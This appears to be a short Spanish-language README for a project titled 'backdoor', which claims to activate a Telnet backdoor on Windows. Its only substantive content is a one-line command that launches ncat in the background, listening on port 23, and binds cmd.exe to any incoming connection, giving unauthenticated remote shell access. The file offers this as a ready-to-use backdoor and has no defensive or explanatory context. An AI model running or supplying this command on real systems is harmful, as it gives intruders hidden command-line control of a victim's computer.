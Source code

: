 # backdoor

Activa puerta trasera TelnetD para Windows

start /B ncat -l -t -p 23 -e cmd.exe 

https://nmap.org/ncat/

